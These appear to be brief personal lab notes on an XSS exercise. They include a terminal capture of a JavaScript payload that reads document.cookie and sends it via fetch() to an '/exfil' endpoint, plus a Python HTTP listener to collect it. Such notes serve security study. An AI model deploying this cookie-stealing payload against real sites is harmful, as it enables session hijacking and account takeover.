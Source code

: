 - This Box was `XSS` according to russo's set, was able to get a token and authenticate for the `local.txt`

the `fetch` IP address should be the `Target IP`, need to redo `JUBULA` to test for this again.
```bash
┌──(root💀gobots)-[31Jul2024 20:53:19]-[/home/kali/SUT/OSWA/xss]
└─# vim xss_stealing_cookies.js   

┌──(root💀gobots)-[31Jul2024 20:53:43]-[/home/kali/SUT/OSWA/xss]
└─# cat xss_stealing_cookies.js                  
let cookie = document.cookie

let encodedCookie = encodeURIComponent(cookie)

fetch("http://<Target IP>/exfil?data=" + encodedCookie)


# set up python server
kali@kali:~/xss$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

![[Pasted image 20250106100810.png]]